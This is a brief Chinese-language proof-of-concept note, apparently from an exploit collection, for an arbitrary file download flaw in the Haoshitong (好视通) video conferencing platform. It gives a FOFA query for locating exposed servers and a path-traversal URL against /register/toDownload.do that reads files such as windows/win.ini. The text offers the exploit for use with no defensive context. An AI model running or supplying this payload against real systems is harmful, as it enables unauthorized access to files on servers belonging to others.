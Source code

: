 # 好视通视频会议平台任意文件下载

## 资产搜索
fofa body="深圳银澎云计算有限公司"

## POC
`/register/toDownload.do?fileName=敏感文件路径`
例如：`https://xxxxxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini`